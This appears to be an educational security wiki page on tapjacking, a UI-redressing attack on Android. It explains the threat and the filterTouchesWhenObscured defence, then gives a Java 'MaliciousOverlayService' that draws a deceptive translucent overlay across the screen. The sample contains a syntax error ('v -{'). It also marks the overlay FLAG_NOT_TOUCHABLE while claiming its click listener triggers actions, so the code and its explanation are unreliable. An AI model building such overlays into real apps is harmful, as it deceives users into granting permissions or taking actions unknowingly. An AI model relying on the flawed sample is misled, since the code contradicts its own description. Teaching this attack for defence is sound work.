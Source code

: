 # Tapjacking


# 👉 Overview

---

### 👀 What ?

Tapjacking is a type of UI redressing attack where a malicious application tricks a user into interacting with a different application's UI. This is typically done by overlaying a transparent layer with deceptive elements over a legitimate application.


### 🧐 Why ?

Tapjacking poses a significant threat to mobile application security. It can lead to unauthorized access to sensitive data, installation of unwanted applications, or execution of undesired actions without the user's knowledge. Awareness of this issue is critical for users to avoid falling victim to such attacks and for developers to implement appropriate defenses in their applications.


### ⛏️ How ?

To prevent tapjacking, developers can use the 'setFilterTouchesWhenObscured' method or the 'android:filterTouchesWhenObscured' attribute in their application. This makes the application ignore touches that are obscured by another visible window. For users, it's crucial to only download applications from trusted sources and to pay attention to any unusual behavior or unexpected prompts on their device.


### ⏳ When ?

Tapjacking has been a known threat since around 2010, with the rise of touch screen mobile devices. It continues to be a relevant issue today, especially with the increasing use of mobile applications for sensitive transactions.


# ⚙️ Technical Explanations

---

Tapjacking exploits the ability in mobile operating systems to display one application's interface on top of another. The attacker creates a malicious application with a transparent interface and tricks the user into interacting with it. The touches are passed to the underlying legitimate application, triggering unintended actions. For instance, the malicious application could mimic a game, while in reality, the user is giving permissions to the application in the underlying layer. This issue is primarily on Android devices, as iOS has stricter controls on overlay permissions. However, it remains a pervasive threat due to the large number of Android users and the variety of software versions in use.

Let's consider an example where the malicious app overlays a deceptive UI on top of a legitimate app. Here's a more advanced version of the code that an attacker might use:

```java
public class MaliciousOverlayService extends Service {
    private WindowManager windowManager;
    private ViewGroup overlayView;

    @Override
    public IBinder onBind(Intent intent) {
        return null;
    }

    @Override
    public void onCreate() {
        super.onCreate();
        windowManager = (WindowManager) getSystemService(WINDOW_SERVICE);
        overlayView = createOverlayView();
        addOverlayView(overlayView);
    }

    private ViewGroup createOverlayView() {
        WindowManager.LayoutParams params = new WindowManager.LayoutParams(
                WindowManager.LayoutParams.MATCH_PARENT,
                WindowManager.LayoutParams.MATCH_PARENT,
                WindowManager.LayoutParams.TYPE_APPLICATION_OVERLAY,
                WindowManager.LayoutParams.FLAG_NOT_TOUCHABLE |
                        WindowManager.LayoutParams.FLAG_LAYOUT_IN_SCREEN,
                PixelFormat.TRANSLUCENT);

        LinearLayout overlayView = new LinearLayout(this);
        overlayView.setLayoutParams(params);
        overlayView.setBackgroundColor(Color.parseColor("#55000000"));

        LayoutInflater inflater = LayoutInflater.from(this);
        View deceptiveView = inflater.inflate(R.layout.deceptive_layout, overlayView);
        deceptiveView.setOnClickListener(v -{
            // Code to trigger actions in the underlying legitimate app
        });

        return overlayView;
    }

    private void addOverlayView(ViewGroup overlayView) {
        WindowManager.LayoutParams params = (WindowManager.LayoutParams) overlayView.getLayoutParams();
        windowManager.addView(overlayView, params);
    }

    @Override
    public void onDestroy() {
        super.onDestroy();
        if (overlayView != null) {
            windowManager.removeView(overlayView);
            overlayView = null;
        }
    }
}

```

1. `MaliciousOverlayService` is a service that creates and manages the overlay view.
2. The `createOverlayView` method creates a new ViewGroup with a deceptive layout that will be displayed over other apps. The layout parameters are set to `TYPE_APPLICATION_OVERLAY`, which allows it to appear on top of other apps. The layout is also not touchable (`FLAG_NOT_TOUCHABLE`) and will be laid out in the entire screen (`FLAG_LAYOUT_IN_SCREEN`).
3. A deceptive view is inflated from a layout resource (`R.layout.deceptive_layout`) and added to the overlay view. An onClickListener is set on the deceptive view to trigger actions in the underlying legitimate app when the user interacts with it.
4. The `addOverlayView` method adds the overlay view to the window manager, which displays it on top of other apps.
5. When the service is destroyed, the overlay view is removed from the window manager in the `onDestroy` method.

This code provides a more detailed and realistic example of how a tapjacking attack could be implemented. However, it's critical to note that this example is for educational purposes only and should not be used for malicious purposes.

# 🖇️ Références

---